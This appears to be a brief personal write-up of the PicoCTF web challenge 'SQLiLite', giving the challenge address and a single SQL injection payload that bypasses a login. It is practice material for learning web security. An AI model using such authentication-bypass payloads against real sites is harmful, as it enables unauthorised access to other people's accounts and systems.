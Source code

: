 ```yaml
---
title: PicoCTF - SQLiLite
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - SQLiLite
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://saturn.picoctf.net:55837/

## Exploit - sqli
Payload:
`admin' or '1'='1' -- #`
![](https://i.imgur.com/yNgpTiY.png)